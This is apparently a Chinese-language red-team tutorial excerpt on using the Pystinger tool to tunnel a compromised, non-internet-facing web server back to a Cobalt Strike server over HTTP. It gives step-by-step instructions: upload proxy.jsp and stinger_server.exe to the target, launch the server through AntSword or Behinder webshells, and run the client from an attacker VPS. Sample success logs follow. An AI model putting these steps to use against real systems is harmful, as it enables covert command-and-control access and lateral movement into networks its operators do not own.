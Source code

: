 简单原理：

**`Pystinger`来实现内网反向代理，利用http协议将目标机器端口映射至cs服务端监听端口，能在只能访问web服务且不出网的情况下可以使其上线cs**

![image-20220517174612140.png](assets/attach-ca95db018f056d23e762e53c4168837367434564.png)

### 使用

地址:

```php
https://github.com/FunnyWolf/pystinger/blob/master/readme_cn.md
```

这里直接复制过来了：

> 假设不出网服务器域名为 [http://example.com:8080](http://192.168.3.11:8080/) ,服务器内网IP地址为192.168.3.11

#### **SOCK4代理**

- proxy.jsp上传到目标服务器,确保 http://example.com:8080/proxy.jsp 可以访问,页面返回 `UTF-8`
- 将stinger_server.exe上传到目标服务器,蚁剑/冰蝎执行`start D:/XXX/stinger_server.exe`启动服务端

> 不要直接运行D:/XXX/stinger_server.exe,会导致tcp断连

- vps执行`./stinger_client -w http://example.com:8080/proxy.jsp -l 127.0.0.1 -p 60000`
- 如下输出表示成功

```php
root@kali:~# ./stinger_client -w http://example.com:8080/proxy.jsp -l 127.0.0.1 -p 60000
2020-01-06 21:12:47,673 - INFO - 619 - Local listen checking ...
2020-01-06 21:12:47,674 - INFO - 622 - Local listen check pass
2020-01-06 21:12:47,674 - INFO - 623 - Socks4a on 127.0.0.1:60000
2020-01-06 21:12:47,674 - INFO - 628 - WEBSHELL checking ...
2020-01-06 21:12:47,681 - INFO - 631 - WEBSHELL check pass
2020-01-06 21:12:47,681 - INFO - 632 - http://example.com:8080/proxy.jsp
2020-01-06 21:12:47,682 - INFO - 637 - REMOTE_SERVER checking ...
2020-01-06 21:12:47,696 - INFO - 644 - REMOTE_SERVER check pass
2020-01-06 21:12:47,696 - INFO - 645 - --- Sever Config ---
2020-01-06 21:12:47,696 - INFO - 647 - client_address_list => []
2020-01-06 21:12:47,696 - INFO - 647 - SERVER_LISTEN => 127.0.0.1:60010
2020-01-06 21:12:47,696 - INFO - 647 - LOG_LEVEL => INFO
2020-01-06 21:12:47,697 - INFO - 647 - MIRROR_LISTEN => 127.0.0.1:60020
2020-01-06 21:12:47,697 - INFO - 647 - mirror_address_list => []
2020-01-06 21:12:47,697 - INFO - 647 - READ_BUFF_SIZE => 51200
2020-01-06 21:12:47,697 - INFO - 673 - TARGET_ADDRESS : 127.0.0.1:60020
2020-01-06 21:12:47,697 - INFO - 677 - SLEEP_TIME : 0.01
2020-01-06 21:12:47,697 - INFO - 679 - --- RAT Config ---
2020-01-06 21:12:47,697 - INFO - 681 - Handler/LISTEN should listen on 127.0.0.1:60020
2020-01-06 21:12:47,697 - INFO - 683 - Payload should connect to 127.0.0.1:60020
2020-01-06 21:12:47,698 - WARNING - 111 - LoopThread start
2020-01-06 21:12:47,703 - WARNING - 502 - socks4a server start on 127.0.0.1:60000
2020-01-06 21:12:47,703 - WARNING - 509 - Socks4a ready to accept
```
